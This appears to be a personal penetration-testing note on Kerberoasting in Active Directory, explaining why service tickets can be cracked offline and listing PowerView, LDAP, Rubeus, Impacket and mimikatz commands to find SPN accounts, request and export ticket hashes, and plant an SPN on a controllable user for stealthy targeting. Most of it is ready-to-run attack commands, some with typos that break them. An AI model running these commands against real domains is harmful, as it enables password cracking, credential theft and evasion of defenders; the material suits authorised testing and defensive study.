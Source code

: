 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powerview #powershell #ldap #rubeus #mimikatz #impacket 
- ST can be requested by any user for any service if it's [SPN](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/AD%20Concepts/Services.md#SPN) is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
- Rubeus
```powershell
# list kerberos stats
.\Rubeus.exe kerberoast /stats

# Look of kerberoastable account that only supports RC4_HMAC
.\Rubues.exe kerberoast /stat /rc4opsec
```
### Requesting STs
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py mydomain.local/a.drdragon:Password!! -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```
- Rubeus
```powershell
.\Rubeus kerberoast /nowrap [/user:<username>] /simple

# for rc4_hmac account
.\Rubeus kerberoast /nowrap [/user:<username>] /simple /rc4opsec
```
---
If we have `GenericAll` or `GenericWrite` over a user, we can set a random SPN for that user, and request ST for it. This is opsec friendly as resetting a user password is noisy. SPN for a user can be set using (SPN should be unique for the forest): 
```powershell
# Powerview
Set-DomainOjbect -Identity support30user -Set @{serviceprincipalname = 'dcorp/whatever'}

# Ad module
Set-ADUser -Identity support30user -ServicePrincipalNames @{Add='dcorp/whatever'}
```